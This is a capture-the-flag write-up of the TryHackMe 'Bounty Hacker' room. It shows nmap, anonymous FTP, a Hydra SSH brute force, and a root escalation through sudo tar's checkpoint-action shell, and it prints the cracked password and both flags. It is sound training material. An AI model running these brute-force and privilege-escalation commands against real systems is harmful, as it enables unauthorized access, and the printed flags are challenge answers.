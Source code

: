 # 🏴‍☠️ TryHackMe - Bounty Hacker

**Platform:** TryHackMe  
**Challenge Type:** Boot2Root  
**Author:** Gage Ayala ([@GageGotya](https://github.com/GageGotya))  
**Date:** April 9, 2025  
**Difficulty:** ⭐ Easy  

---

## 📘 Overview

The **Bounty Hacker** room places you in the role of a digital bounty hunter targeting a cybercriminal syndicate.  
You'll enumerate a server, access files via FTP, crack credentials, and escalate to root using a misconfigured sudo permission.

> 💡 A great beginner-friendly room covering foundational pentesting techniques like recon, password reuse, and privilege escalation.

---

## 🌐 Information Gathering

**Target IP:** _Provided by the room_

### 🔍 Nmap Scan

```bash
nmap -sC -sV <target-ip>
```

**Ports Discovered:**

- `21/tcp` – FTP (vsftpd 3.0.3, anonymous login allowed)  
- `22/tcp` – SSH (OpenSSH 7.2.2)  
- `80/tcp` – HTTP (Apache httpd 2.4.18)

---

## 📂 FTP Access

```bash
ftp <target-ip>
Name: anonymous
```

### 📁 Files Discovered

```bash
ftp> ls
locks.txt
task.txt

ftp> get locks.txt
ftp> get task.txt
```

#### 📄 task.txt

```
1.) Protect Vicious.  
2.) Plan for Red Eye pickup on the moon.  
-lin
```

🔑 **Username hint:** `lin`

#### 📄 locks.txt

Custom password list found which are likely reused credentials.

---

## 🔓 Gaining Access

### 🚀 Brute Force with Hydra

```bash
hydra -l lin -P locks.txt ssh://<target-ip>
```

✅ **Password Found:** `RedDr4gonSynd1cat3`

---

## 🔐 SSH Access

```bash
ssh lin@<target-ip>
```

---

## 🏁 User Flag

```bash
cat ~/Desktop/user.txt
```

**Flag:**  
```
THM{CR1M3_SyNd1C4T3}
```

---

## 🪜 Privilege Escalation

### 🔍 Sudo Permissions

```bash
sudo -l
```

```text
User lin may run the following command as root:
(root) /bin/tar
```

### 📦 Exploiting tar

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```bash
whoami
root
```

---

## 👑 Root Flag

```bash
cat /root/root.txt
```

**Flag:**  
```
THM{80UN7Y_h4cK3r}
```

---

## 💡 Reflections

- Anonymous FTP access is often overlooked but powerful  
- Password reuse is still a major weakness  
- Always run `sudo -l` — it's a goldmine  
- Even basic tools like `tar` can grant root when misconfigured

---

## 🧠 Pro Tip

> *"When in doubt, poke around, read everything, and always try the simple stuff first."*

---

## 📁 Summary of Key Files

| File        | Description                            |
|-------------|----------------------------------------|
| `locks.txt` | Password list used in brute-force      |
| `task.txt`  | Initial objective + username clue      |
| `user.txt`  | First flag found on user's desktop     |
| `root.txt`  | Root flag retrieved after escalation   |

